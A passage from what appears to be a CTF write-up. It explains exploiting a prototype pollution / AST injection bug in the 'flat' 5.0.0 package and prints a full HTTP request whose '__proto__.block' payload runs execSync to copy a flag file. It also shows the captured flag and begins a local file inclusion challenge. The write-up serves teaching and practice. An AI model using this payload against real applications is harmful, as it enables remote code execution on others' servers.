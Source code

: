 From "package.json" file we can see the "flat" module package installed is "5.0.0" which suffers from a Prototype Pollution vulnerability via Abstract Syntax Tree. You can read detailed explanation of this vulnerability from below blog post:

[https://blog.p6.is/AST-Injection/](https://blog.p6.is/AST-Injection/)

To exploit this vulnerability and read the flag, sent below payload on the "/api/submit" endpoint:

```
POST /api/submit HTTP/1.1
Host: 46.101.54.143:31722
User-Agent: python-requests/2.22.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Length: 203
Content-Type: application/json

{"song.name": "ASTa la vista baby", "__proto__.block": {
        "type": "Text", 
        "line": "process.mainModule.require('child_process').execSync(`cp /app/flag* /app/static/js/flag.txt`)"
}}
```

The flag file was copied in webserver's static directory for us to read.

```
CHTB{p0llute_with_styl3}
```

&nbsp;

## # MiniSTRyplace

![](/img/2021_04_24_htb_cyberapocalypse_ctf_writeup/20210425030433.png#center)

This was one of the easiest web challenges. We were given application source code. There was a local file inclusion vulnerability located in "challenge/index.php" file:
